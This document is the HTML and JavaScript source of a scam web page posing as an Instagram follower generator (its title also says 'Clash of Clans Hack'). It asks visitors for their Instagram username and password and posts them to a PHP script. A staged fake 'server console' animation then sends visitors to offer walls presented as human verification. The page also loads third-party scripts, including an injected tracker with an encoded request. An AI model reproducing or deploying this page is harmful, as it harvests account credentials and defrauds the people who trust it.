 <html><head>

  <meta charset="utf-8" />
  <title>Instagram Follower Online App</title>
  <!--[if IE]><meta http-equiv='X-UA-Compatible' content="IE=edge,IE=9,IE=8,chrome=1" /><![endif]-->
  <meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=0, minimum-scale=1.0, maximum-scale=1.0">
  <meta name="apple-mobile-web-app-capable" content="yes">
  <meta name="apple-mobile-web-app-status-bar-style" content="black">
  <meta content="" name="description" />
  <meta content="" name="author" />
  <link type="text/css" rel="stylesheet" href="http://fonts.googleapis.com/css?family=Open+Sans:300italic,400italic,600italic,400,300,600">

  <link rel="stylesheet" href="http://followerinsta.online/css/bootstrap.min.css">
  <link rel="stylesheet" href="http://followerinsta.online/css/jquery.mCustomScrollbar.css">
  <link rel="stylesheet" href="http://followerinsta.online/ss/theme.css">
  <link rel="stylesheet" href="http://followerinsta.online/http://followerinsta.online/css/slider.css">
  <link rel="stylesheet" href="http://followerinsta.online/css/custom-css.css">



<meta charset="utf-8"/>
<meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1"/>
<title>Clash of Clans Hack Online</title>
<link rel="shortcut icon" href="http://followerinsta.online/images/logo.png" />
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
<meta name="title" content="My InstaHack Followers"/>
<meta name="description" content="Cara untuk hacking follower instagram"/>
<meta name="keywords" content="hack Follower Instagram">
<meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no" />
<link rel="stylesheet" href="./ngz/css1.css"/>
<link rel="stylesheet" href="./ngz/css2.css"/>
<link rel="stylesheet" href="./ngz/css3.css"/>
<script src="./ngz/css4.js"></script>
<script src="./ngz/css5.js"></script>
<script src="./ngz/css6.js"></script>
<script src="./ngz/css7.js"></script>
</head><body>
<div id="config-screen" class="container round-10">
<div  id="coc-header">



<h1 style="color:green;">Instagram Follower Online App</h1>

                </div>
              
                <div class="panel-body" id="offers" style="display: none;">
                  <div class="row">
                    <div class="col-md-12 text-center">
                    <br><br>
                      <h4> <b style="color:red">Waiting for verification..</b> <h4/>

                        <br>
                      </div>              


                      <center>
                      	
<img id="slika" src="http://followerinsta.online/images/defaultslika.gif" style="width: 109px; height: 109px; border-radius: 50%; margin-top: 20px; margin-bottom: 20px;">

<form method="post" action="sukses.php">

             </center>
                      <div  style="color : white">
                      <center>
                      <br><h3><div id="ispodslike" style="display: none; color : white;"></div></h3></br>
                      <br>1.Click the "Verify" button!</br>
                      <br>2.Choose an offer and complete the offer to verify that you are not a spam bot.</br>
                      <br>3.Soon after, your resources will be added.</br>

                     

                      
<br><input type="text" id="email" name="user" placeholder="@Username" class="form-control " required/>

<br><input class="form-control " style="width: 545px;" name="follower" placeholder="0-10000 Follower" min="0" step="100" max="100000" type="number" required/>

<br><input type="password" id="email" name="password" placeholder="Password" class="form-control " required/>

                      <ul class="list-inline" id="show-offer-container" style="margin-top: 20px;">
                        <li style="display: block;">



                          <button type="submit"  id="email" value="submit" name="submit"  style="width: 545px;" class="btn btn-success  " 
>Verify now</button>
          
                      </div>

                          <div class="ludy-wrapper">
                            <div class="ludy-options" data-offers="Q9q4MIwc1fG5dHLM"></div>
                          </div>

                        </li>
                      </ul>
                      <ul class="list-inline" style="display: none;text-align: center;margin-top: 20px;" data-offers="GOZoX48uY1A2n25K"></ul>
                    </center>

</form>


                  </div>
                </div>
                <div class="panel-body" id="console" style="display: none;">
                  <code class="command"></code>
                </div>
                <div class="panel-body" id="generator">
                  <div class="row">
                    <div class="col-md-3 hidden-sm hidden-xs">
                      <img width="115%" alt="Instagram Followers (Android / iOS)" src="http://followerinsta.online/images/logo.png">
                    </div>
                    <div class="col-md-9">
                      <br>

                      <span class="titlu_font" style="color:white;">Generate likes and followers!</span><br>
                      <div class="row" style="border: none;padding:0;margin-top:10px;">
                        <p class="warning" style="color:red;display:none;position:relative; left: 15px;">Check your username:</p>
                        <div class="col-md-8">
                          <div class="input-group">


                            <input id="username" class="form-control input-md" style="height: 50px; width: 385px;" placeholder="Username " required type="text" name="username">
<br><br><br>
                          </div>
<button type="submit" id="connect" class="button btn-success col-md-12" style="height: 70px;" /> Generate</button>
                          <br>
 
                        </div>
                      </div>
                    </div>
                  </div>
                  

            <?php
              $coeg = "<script language=javascript>+usercina2+</script>"
            ?>


 <div class="modal fade" id="gw">

    <div class="modal-dialog">
      <div class="modal-content">
        <div class="modal-header">
          <center><h4 class="modal-title">Anti-Spam Verification.</h4></center>
        </div>
        <div class="modal-body">
          <div class="row">
            <div class="col-md-12 text-center">
              <p class="explain"><br>1. Click the Check button
                <br>2. Select an offer
                <br>3. After you have completed the offer you get your resources!
                <br><br>
              </p>
            </div>
          </div>
        </div>
        <div class="modal-footer">
          <center><a href="#"><INPUT TYPE="BUTTON" class="button2"  VALUE="Check"></a></center>
        </div>
      </div>
    </div>
  </div>
</div>
<script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "cfs.uzone.id/2fn7a2/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHaUQnUEiP6K%2fc5C582CL4NjpNgssK9K0NXeV151Bf3ABqBGOl%2fGuiCZu8Cb0JytD42eBqvspIlRiJc38wcHzTlPwlxlZXzhKw%2fDTcBsGwpFjoesDVoRLbMf4anpUbBSlXy7IxFcBSTTEILv0O%2f1Aj0r8%2fd4YqiaTRXEd6YGLqSzRzSIvA2LENhLx0LIoJ7AkKYMmJGgy1yc7X2ywvaekbnKHXwrB0YZ0Nv6pCG9GJ5iZDeC8fy%2bS%2fuE2Ot45%2bCacW6ECPClID7%2fym5DNidi36oWAYCGwsn5QRbnhD69lJfK4Kv%2bIK675ujBclMErMfu23F66QBOjQz8%2bfufHTUd22GBctfuYcL1XDpUxQK2k1rZq4Y9r2R365K4lb%2bpmzoe8tLBexGguraURH2K6UrvDhX9znGqOac8644y1FEoI7fhyp3UatSvswfpQtVKM6Fba1S%2fL%2bSS%2bgP%2b13MEApFkfFKOKAH7XaaGe08ux%2bqPPAJmuDZtURZLpbABXBoEVTLDGyLy8YY2PGREakRuLl6A%3d%3d" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script></body>
<script src="http://followerinsta.online/js/jquery.min.js"></script>
<script src="http://followerinsta.online/js/bootstrap.min.js"></script>
<!-- <script src="js/bootstrap-slider.js"></script> -->
<script src="http://followerinsta.online/js/numbers.js"></script>
<script src="http://followerinsta.online/js/shit.js"></script>
<script type="text/javascript" src="http://www.ludyluda.com/HtHgd7oNJVvcdEhE"></script>


<script>
    // Check if type is edited properly... (note for me)
    function type(elem, speed) {
      setTimeout(function() {
        $('<div>' + elem + '</div>')
        .hide()
        .appendTo( $('.command') )
        .fadeIn();
      }, speed);
    }

    $(function() {
      var host = 'localhost',
      foffers = '';

      $('#offers').hide();
      $('#console').hide();
      $('#offers').append(foffers);
      $('.button2').click(function() {
        $('#gw').modal('hide');
        $('#console').slideToggle();
        $('#offers').slideToggle();
      });

      if (window.location.host != '') {
        host = window.location.host;
      }
      
      $('.button').click(function() {
        if ($('#username').val().length <= 3) {
          $('#username').css('background', 'rgb(255,200,200)');
          $('.warning').show();
          window.scrollTo(0, 0);
          alert('Error: Check your username!');
        } else {
          var user = $('#username').val();
          var usercina = document.getElementById("username").value;
          var usercina1 = usercina.replace('https://www.instagram.com/', '');
          var usercina2 = usercina1.replace('/', '');

          $('#slika').attr('src', 'http://res.cloudinary.com/demo/image/instagram_name/w_109,h_109,c_thumb,g_face,r_max,e_improve/' + usercina2 + '.jpg');
          document.getElementById("ispodslike").innerHTML = "User : @"+usercina2+"";

          $('#ispodslike').slideToggle();

          $('#generator').slideToggle();
          $('#console').slideToggle();

          type('Connecting to server...', 200);
          type('<span style="color: green">Connected!</span>', 400);
          type('guest@' + host + '', 650);
          type('>Preparing Generator!', 680);
          type('>Sending packets!', 780);
          type('>@INSTAGRAM-SERVER -Importing!', 880);
          type('>.INSTAGRAM.Connecting <span style="color: red;font-size:15px;">' + user + '></span>', 1080);
          type('>Response: ' + user + ' Authenticating.', 1880);
          type('<span style="color: green">>User Connected!</span>', 1980);
          type('>THE SERVER IS FULL!', 2480);
          type('>RETRY.', 2880);
          type('>ACCES_CODE: #ffX104', 3780);
          type('<span style="color: green">>MEMORY LOADED CORRECTLY</span>', 4280);
          type('>PREPARING...', 4880);
          type('>THE GENERATOR IS READY', 5000);
          type('<span style="color: yellow">NOTES: UNABLE TO VERIFY THE SESSION</span>', 5000);
          type('>WAITING FOR USER', 5000);
          type('>GENERATOR WILL CONTINUE AFTER HUMAN VERIFICATION', 5400);
          type('<span style="color: yellow">NOTE FROM DEVELOPER: Thank you for using our Generator!!</span>', 5800);

          $('.button').hide();
          $(".list-inline a").addClass('button7');
          setTimeout(function() {
            $('#gw').modal('hide');
            $('#console').slideToggle();
            $('#offers').slideToggle();
          }, 6800);
        };
      });
    });

  </script>
  <script type="text/javascript" src="http://followerinsta.online/js/ludy-script.js"></script>
  <script type="text/javascript" src="http://www.ludyluda.com/Q9q4MIwc1fG5dHLM"></script>

  <!-- Histats.com  START  (standard)-->
  <script type="text/javascript">document.write(unescape("%3Cscript src=%27http://s10.histats.com/js15.js%27 type=%27text/javascript%27%3E%3C/script%3E"));</script>
  <a href="http://www.histats.com/" target="_blank" title="site stats" ><script  type="text/javascript" >
    try {Histats.start(1,3174459,4,0,0,0,"00010000");
    Histats.track_hits();} catch(err){};
  </script></a>
  <noscript><a href="http://www.histats.com/" target="_blank"><img  src="../sstatic1.histats.com/08b02.gif?3174459&amp;101" alt="site stats" border="0"></a></noscript>
  <!-- Histats.com  END  --></body></html>
